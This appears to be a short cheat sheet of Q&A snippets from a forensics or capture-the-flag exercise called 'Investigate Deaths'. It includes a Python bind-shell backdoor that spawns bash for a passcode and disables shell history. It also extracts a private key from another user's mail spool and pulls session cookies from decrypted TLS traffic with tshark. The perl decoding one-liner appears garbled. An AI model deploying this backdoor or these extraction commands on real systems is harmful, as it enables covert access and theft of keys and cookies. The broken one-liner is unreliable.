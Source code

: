 # Investigate Deaths

### What is a handy bash script to decode mail attachments?
```
cat /var/spool/mail/arthur | egrep "^(\w|\+|=|/)+$" | base64 -d > /tmp/arthur.priv
```

### How do you find a user's ID?
```
id -u brett
```

### What command shows which user is opening ports?
```
netstat -palute
```

### What's a handy python script for a shell via telnet?
```
import os
import pty
import socket as sc

def mn():
    s = sc.socket()
    s.bind(('',0)) #random port from 1024-65535
    s.listen(1)
    (rem, addr) = s.accept()
    if "passcode" in rem.recv(1024).strip().decode("utf-8"):
        os.dup2(rem.fileno(),0)
        os.dup2(rem.fileno(),1)
        os.dup2(rem.fileno(),2)
        os.putenv("HISTFILE",'/dev/null')
        pty.spawn("/bin/bash")
    s.close()

if __name__ == "__main__":
    mn()
```

### How do you decode binary inline on the terminal?
```
cat <file> | perl -lpe '$=pack"B*",$'
```

### How do you view SSL-encrypted traffic in Wireshark if you have the keyfile?
`Edit>Preferences>Protocols>SSL` 

### How do you view SSL-encrypted traffic in tshark if you have the keyfile?
```
tshark -nr kanes.body -o ssl.keylog_file:./client_random.keylog -T fields -e http2.headers.cookie
```
